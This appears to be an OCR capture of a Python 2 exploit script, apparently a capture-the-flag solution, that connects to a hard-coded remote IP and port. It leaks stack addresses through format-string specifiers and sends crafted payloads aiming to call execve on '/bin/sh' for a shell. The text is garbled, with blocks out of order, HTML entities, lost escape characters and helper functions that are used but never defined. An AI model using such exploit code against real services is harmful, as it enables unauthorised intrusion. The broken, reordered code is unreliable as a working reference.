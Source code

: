 s.send(&#39;2n&#39;)
s.recv(4096)
s.send(first&nbsp;+&nbsp;second&nbsp;+&nbsp;&#39;a&#39;&nbsp;*&nbsp;(240&nbsp;-&nbsp;len(second))&nbsp;+&nbsp;&#39;n&#39;)
s.recv(4096)
s.send(&#39;3n&#39;)
print&nbsp;hex(ebp)
ret&nbsp;=&nbsp;s.recv(4096)

while&nbsp;ret.find(&#39;a&#39;&nbsp;*&nbsp;5)&nbsp;==&nbsp;-1:
&nbsp;&nbsp;&nbsp;&nbsp;ret&nbsp;+=&nbsp;s.recv(4096)

pos&nbsp;=&nbsp;ret.find(&#39;a&#39;&nbsp;*&nbsp;5)&nbsp;+&nbsp;5

#&nbsp;puts_addr&nbsp;=&nbsp;int(binascii.hexlify(ret[pos:pos&nbsp;+&nbsp;4][::-1]),&nbsp;16)
puts_addr&nbsp;=&nbsp;int(binascii.hexlify(ret[:4][::-1]),&nbsp;16)
puts_pos&nbsp;=&nbsp;binascii.hexlify(binascii.unhexlify(hex(puts_addr)[2:])[::-1])
execve_addr&nbsp;=&nbsp;0x000B8240&nbsp;-&nbsp;0xde3a0&nbsp;+&nbsp;puts_addr
execve_pos&nbsp;=&nbsp;binascii.hexlify(binascii.unhexlify(hex(execve_addr)[2:])[::-1])
execve_pos&nbsp;=&nbsp;&#39;203becf7&#39;


import&nbsp;socket
import&nbsp;binascii

s&nbsp;=&nbsp;socket.socket(socket.AF_INET,&nbsp;socket.SOCK_STREAM)
s.connect((&#39;218.2.197.248&#39;,&nbsp;10002))
#&nbsp;s.connect((&#39;10.211.55.10&#39;,&nbsp;8888))
s.send(&#39;2n&#39;)
s.recv(4096)
s.send(&#39;0x%266$08x&nbsp;0x%265$08x&nbsp;0x%267$08xn&#39;)
s.recv(4096)
s.send(&#39;3n&#39;)
ret&nbsp;=&nbsp;s.recv(4096)
while&nbsp;ret.find(&#39;0x&#39;)&nbsp;==&nbsp;-1:
&nbsp;&nbsp;&nbsp;&nbsp;ret&nbsp;+=&nbsp;s.recv(4096)

pos&nbsp;=&nbsp;ret.find(&#39;0x&#39;)
ebp&nbsp;=&nbsp;int(ret[pos&nbsp;+&nbsp;2:pos&nbsp;+&nbsp;10],&nbsp;16)

#&nbsp;bin_sh_pos&nbsp;=&nbsp;binascii.hexlify(binascii.unhexlify(hex(ebp&nbsp;-&nbsp;0x30&nbsp;-&nbsp;0x40c&nbsp;+&nbsp;0x60&nbsp;+&nbsp;300)[2:])[::-1])
bin_sh_pos&nbsp;=&nbsp;binascii.hexlify(binascii.unhexlify(hex(ebp&nbsp;-&nbsp;0x30&nbsp;+&nbsp;0x14&nbsp;+&nbsp;8)[2:])[::-1])
first&nbsp;=&nbsp;calc(ebp&nbsp;-&nbsp;0x30&nbsp;+&nbsp;4)
#&nbsp;second&nbsp;=&nbsp;fill(0x60,&nbsp;&#39;e0840408&#39;&#39;9f880408&#39;&nbsp;+&nbsp;bin_sh_pos&nbsp;+&nbsp;&#39;2f62696e2f736800&#39;)
#&nbsp;second&nbsp;=&nbsp;fill(0x60,&nbsp;execve_pos&nbsp;+&#39;9f880408&#39;&nbsp;+&nbsp;bin_sh_pos)
second&nbsp;=&nbsp;fill(0x80,&nbsp;&#39;a0840408&#39;&nbsp;+&nbsp;&#39;70850408&#39;&nbsp;+&nbsp;bin_sh_pos&nbsp;+&nbsp;&#39;04910408&#39;&nbsp;+&nbsp;&#39;00&#39;&nbsp;*&nbsp;8&nbsp;+&nbsp;&#39;3d3d2538733d3d2d&#39;)

s.send(&#39;2n&#39;)
s.recv(4096)
s.send(first&nbsp;+&nbsp;second&nbsp;+&nbsp;&nbsp;&#39;a&#39;&nbsp;*&nbsp;(400&nbsp;-&nbsp;len(second))&nbsp;+&nbsp;&#39;n&#39;)
s.recv(4096)
s.send(&#39;3n&#39;)
ret&nbsp;=&nbsp;s.recv(4096)
